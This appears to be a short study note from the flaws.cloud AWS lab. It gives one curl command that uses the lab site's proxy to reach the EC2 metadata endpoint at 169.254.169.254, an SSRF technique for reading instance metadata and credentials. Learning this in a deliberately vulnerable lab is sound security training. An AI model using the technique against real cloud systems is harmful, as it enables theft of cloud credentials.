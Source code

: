 #AWS 
***
- To retrieve the metadata of an EC2 instance we use the following command:
```
curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data
```
